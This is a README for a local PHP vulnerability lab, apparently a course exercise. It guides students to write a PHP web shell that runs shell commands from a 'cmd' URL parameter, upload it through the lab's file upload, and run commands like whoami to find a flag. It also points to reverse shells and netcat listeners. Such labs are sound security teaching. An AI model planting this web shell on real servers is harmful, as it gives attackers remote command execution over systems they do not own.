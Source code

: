 ## PHP Vuln LAB

### Setup
1. To run the lab, make sure you have docker engine installed. The lab can be started by changing directories `cd LAB` and then you can start the container by running `sudo docker-compose up --build --remove-orphans`.

2. Open your web browser and navigate to `http://localhost:8080/`

### Building the Malware

We want to see whats hiding in the criminals webserver. Why don't we exploit the fact that they are using PHP and write some malware! Maybe we can create a shell and run commands to see what's inside.

1. Create a file called `shell.php`, or whatever name you want to call your malware. (We are writing with php so feel free to obfuscate as you'd like for practice. You'll get brownie points?)

2. We want to be able to execute shell commands from the URL or setup a reverse shell. Refer to Dr. O'learys [Cyber Operations text book](https://www.amazon.com/Cyber-Operations-Building-Defending-Attacking/dp/1484242939) for details on how to setup reverse shells, and/or look into what a netcat listener is. Brownie Points for making a reverse shell, however for this lab we will just be focusing on pumping commands through the URL field in our browser.

- How can we execute shell commands through our browser? We want the server to recognize our GET requests as shell commands with the input `cmd`. Here is an example of how I would build mine:

```
<?php
if (isset($_GET['cmd'])) {
    $cmd = ($_GET['cmd']);
    // We want to be able to view the output. Is the following necessary?
    echo "<pre>";
    $output = shell_exec($cmd);
    echo $output;
    echo "</pre>";
    exit; // Exit after executing the command
}
?>
```
3. Upload your fresh and snazzy malware to the upload link and navigate to `http://localhost:8080/uploads/`. Use your intuition from here to see if you can inject some commands and locate the super secret flag!

Example Input:
`http://localhost:8080/uploads/shell.php?cmd=whoami`
